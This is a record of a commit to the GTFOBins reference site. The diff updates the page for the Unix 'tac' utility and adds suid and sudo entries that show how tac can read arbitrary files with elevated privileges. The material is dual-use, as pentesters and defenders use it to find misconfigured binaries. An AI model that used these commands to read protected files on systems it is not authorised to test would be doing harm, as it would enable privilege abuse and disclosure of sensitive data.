

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/tac.md, in a window 1280 px wide. Shown: the whole page at 97% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Improve tac and add sudo and suid

```diff
--- a/_gtfobins/tac.md
+++ b/_gtfobins/tac.md
@@ -1,8 +1,16 @@
 ---
+description: Make sure that `RANDOM` does not appear into the file to read otherwise the content of the file is corrupted by reversing the order of `RANDOM`-separated chunks.
 functions:
   file-read:
-    - description: It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.
-      code: |
+    - code: |
         LFILE=file_to_read
-        tac "$LFILE"
+        tac -s 'RANDOM' "$LFILE"
+  suid:
+    - code: |
+        LFILE=file_to_read
+        ./tac -s 'RANDOM' "$LFILE"
+  sudo:
+    - code: |
+        LFILE=file_to_read
+        sudo tac -s 'RANDOM' "$LFILE"
 ---
```
